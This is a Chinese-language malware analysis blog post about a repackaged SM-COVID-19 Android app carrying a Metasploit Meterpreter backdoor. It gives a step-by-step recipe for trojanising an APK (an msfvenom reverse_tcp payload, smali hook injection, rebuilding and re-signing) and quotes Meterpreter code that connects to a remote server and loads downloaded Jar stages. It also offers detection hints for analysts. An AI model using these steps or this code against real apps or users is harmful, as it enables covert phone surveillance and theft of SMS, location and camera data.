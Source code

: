 ```yaml
---
layout: post
title: 安卓木马分析：被感染的SM-COVID-19应用
description: "结合安卓Meterpreter代码解析被重打包的应用实例"
modified: 2020-12-15
tags: [Android, Malware]
math: true
image:
  feature: abstract-7.jpg
---
```


<details open><!-- 可选open -->
<summary>Contents</summary>
<div markdown="1">
<!-- TOC -->

- [安卓木马分析：被感染的SM-COVID-19应用](#%E5%AE%89%E5%8D%93%E6%9C%A8%E9%A9%AC%E5%88%86%E6%9E%90%E8%A2%AB%E6%84%9F%E6%9F%93%E7%9A%84sm-covid-19%E5%BA%94%E7%94%A8)
    - [攻击概述](#%E6%94%BB%E5%87%BB%E6%A6%82%E8%BF%B0)
        - [攻击步骤](#%E6%94%BB%E5%87%BB%E6%AD%A5%E9%AA%A4)
        - [攻击效果](#%E6%94%BB%E5%87%BB%E6%95%88%E6%9E%9C)
    - [定位恶意代码](#%E5%AE%9A%E4%BD%8D%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81)
    - [安卓Meterpreter](#%E5%AE%89%E5%8D%93meterpreter)
    - [恶意代码触发方式](#%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81%E8%A7%A6%E5%8F%91%E6%96%B9%E5%BC%8F)

<!-- /TOC -->
</div>
</details>

## 安卓木马分析：被感染的SM-COVID-19应用

> SM-COVID-19是意大利公司SoftMining开发的APP，用于追踪病毒的接触轨迹。该应用被恶意软件开发者重打包，嵌入了[MSF(Metasploit Framework 渗透测试框架)的Meterpreter后门](https://www.jianshu.com/p/7e1431c9ad66)。

### 攻击概述

#### 攻击步骤

1. 确定良性的载荷APK（[SM-COVID-19](https://play.google.com/store/apps/details?id=it.softmining.projects.covid19.savelifestyle)）

2. 使用MSF的`msfvenom`工具生成恶意负载APK（Metasploit APK）

   ```shell
   $ msfvenom -p android/meterpreter/reverse_tcp LHOST=<url> # Remote Server IP
   ```

3. 反编译载荷APK和负载APK

   ```shell
   $ apktool d xxx.apk # use Apktool to decompile
   ```

4. 将Metasploit APK中Meterpreter的smali代码复制到载荷APK的smali目录下

5. 增加触发恶意代码的方法，即注入钩子（Hook）。例如，在入口点（即`AndroidManifest.xml`中包含intent-filter`<action android:name="android.intent.action.MAIN"/> `的activity）的smali代码中定位`onCreate()`方法，并在方法的起始位置添加一行smali代码：

   ```
   invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
   ```

   注：若要混淆`com/metasploit/stage/Payload`，还需修改`Payload`目录下所有此路径的引用，并改变其自身的目录名。

6. 将Metasploit APK的Manifest文件中的`uses-permission`（权限）和`uses-feature`（软硬件依赖）等补充到新APK的Manifest文件中

7. 打包新的APK

   ```shell
   $ apktool b xxx.apk
   ```

8. 重新签名

   ```shell
   $ keytool -genkey -v -keystore <sig>.keystore -alias <sig> # java工具生成自签名keystore
   $ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore <sig>.keystore xxx.apk <sig> # 使用keystore签名APK
   ```

<!--more-->

#### 攻击效果

当受害者在设备上启动受感染的应用后，原合法应用启动，但恶意代码会在后台连接攻击者的远程服务器。攻击者会获得一个可以执行[各种命令](https://gist.github.com/mataprasad/c5dd39154a852cdc67ff7958e0a82699)的shell，如`dump_sms`, `geolocate`, `webcam_snap`等。

### 定位恶意代码

1. 简单情况：未混淆，恶意代码的包名有明显的层级`com.metasploit.stage`

   >SHA256: f3d452befb5e319251919f88a08669939233c9b9717fa168887bfebf43423aca

2. 中等难度：包名被混淆了，但Manifest文件与原应用不同。反编译新增组件的代码，以匹配[Meterpreter代码](https://github.com/rapid7/metasploit-payloads)

   > SHA256: 7b8794ce2ff64a669d84f6157109b92f5ad17ac47dd330132a8e5de54d5d1afc

3. 复杂情况：Manifest文件与原应用相同。此时需要熟悉Meterpreter代码的特征，以搜索与其相似的部分（例如，硬编码的配置数组，涉及Socket的代码，`DexClassLoader`加载Jar文件的代码）

   >SHA256: 992f9eab66a2846d5c62f7b551e7888d03cea253fa72e3d0981d94f00d29f58a

### 安卓Meterpreter

在[安卓Meterpreter代码](https://github.com/rapid7/metasploit-payloads/tree/master/java/androidpayload/app/src/com/metasploit/stage)中，主函数入口点是`MainActivity`，由它启动实例化了`Payload`的`MainService`。在最重要的`Payload`类中，首先实现了以下操作：

1. 读取硬编码的exploit配置

   ```java
   private static final byte [] configBytes = new byte[] {                                   (byte) 0xde, (byte) 0xad, (byte) 0xba, (byte) 0xad, //placeholder                                   /*8192 bytes */ 0, 0, 0, 0, 0,... 
   };
   ...
   Config config = ConfigParser.parseConfig(configBytes);
   ```

   <figure><img src="{{ site.url }}/images/2020-01-19-COVID_Trojan/1_fLaNwUruNpfrrU0mFtIBGQ.png" style="zoom:50%;" /></figure>

2. 确保手机的CPU保持运转

   ```java
   PowerManager powerManager = (PowerManager) context.getSystemService(Context.POWER_SERVICE); 
   // PARTIAL_WAKE_LOCK使得CPU在屏幕和键盘不工作的情况下仍保持运转
   wakeLock = powerManager.newWakeLock(PowerManager.PARTIAL_WAKE_LOCK, Payload.class.getSimpleName());                                   wakeLock.acquire();
   ```

3. 按需隐藏应用图标

   ```java
   if ((config.flags & Config.FLAG_HIDE_APP_ICON) != 0) {                                           hideAppIcon();         
   }
   ```

4. 打开一个与远程服务器连接的socket

   ```java
   /*
   private static void runStageFromHTTP(String url) throws Exception {
       // 参数url是从恶意应用的硬编码配置中读取的
   }
   */
   
   private static void runStagefromTCP(String url) throws Exception {
       // string is in the format:   tcp://host:port
       String[] parts = url.split(":");
       int port = Integer.parseInt(parts[2]);
       String host = parts[1].split("/")[2];
       Socket sock = null;
   
       if (host.equals("")) {
           ServerSocket server = new ServerSocket(port);
           sock = server.accept();
           server.close();
       } else {
           sock = new Socket(host, port);
       }
   
       if (sock != null) {
           DataInputStream in = new DataInputStream(sock.getInputStream());
           OutputStream out = new DataOutputStream(sock.getOutputStream());
           runNextStage(in, out, parameters);
       }
   }
   ```

连接建立后，远程服务器通过向恶意应用发送一个Jar文件来实现命令执行，[不同的命令对应Jar中特定的类](https://github.com/rapid7/metasploit-payloads/tree/b03f213d4f5bbccb96e7dd491efbfa52aac19821/java/androidpayload/library/src/com/metasploit/meterpreter)。`Payload`接收Jar文件（`stageBytes`），并调用指定类的`start()`方法：

```java
    private static void runNextStage(DataInputStream in, OutputStream out, Object[] parameters) throws Exception {
        if (stageless_class != null) {
            Class<?> existingClass = Payload.class.getClassLoader().
                    loadClass(stageless_class);
            existingClass.getConstructor(new Class[]{
                    DataInputStream.class, OutputStream.class, Object[].class, boolean.class
            }).newInstance(in, out, parameters, false);
        } else {
            String path = (String) parameters[0];
            String filePath = path + File.separatorChar + Integer.toString(new Random().nextInt(Integer.MAX_VALUE), 36);
            String jarPath = filePath + ".jar";
            String dexPath = filePath + ".dex";

            // Read the class name
            String classFile = new String(loadBytes(in));

            // Read the stage
            byte[] stageBytes = loadBytes(in);
            File file = new File(jarPath);
            if (!file.exists()) {
                file.createNewFile();
            }
            FileOutputStream fop = new FileOutputStream(file);
            fop.write(stageBytes);
            fop.flush();
            fop.close();

            // Load the stage
            DexClassLoader classLoader = new DexClassLoader(jarPath, path, path,
                    Payload.class.getClassLoader());
            Class<?> myClass = classLoader.loadClass(classFile);
            final Object stage = myClass.newInstance();
            file.delete();
            new File(dexPath).delete();
            myClass.getMethod("start",
                    new Class[]{DataInputStream.class, OutputStream.class, Object[].class})
                    .invoke(stage, in, out, parameters);
        }

        session_expiry = -1;
    }
```

### 恶意代码触发方式

对应[攻击步骤](#攻击步骤)中的第5步。事实上，除了修改入口点代码，还有其它可选方式。在[第二节](#定位恶意代码)给出的三个样本中，第一个忘记触发了，后两个都重写（override）了`androidx.multidex`包下的`MultiDexApplication`类，并将Meterpreter代码中`MainService`的`start()`方法放在里面（此处Meterpreter中类名经过混淆，`MainService`即`Xmevv`）：

<figure><img src="{{ site.url }}/images/2020-01-19-COVID_Trojan/image-20210120112607552.png" alt="image-20210120112607552" style="zoom:50%;" /></figure>

参考文章

1. [Embedding Meterpreter in Android APK](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
2. [Locating the Trojan inside an infected COVID-19 contact tracing app](https://cryptax.medium.com/locating-the-trojan-inside-an-infected-covid-19-contact-tracing-app-21e23f90fbfe)
3. [Into Android Meterpreter and how the malware launches it — part 2](https://cryptax.medium.com/into-android-meterpreter-and-how-the-malware-launches-it-part-2-ef5aad2ebf12)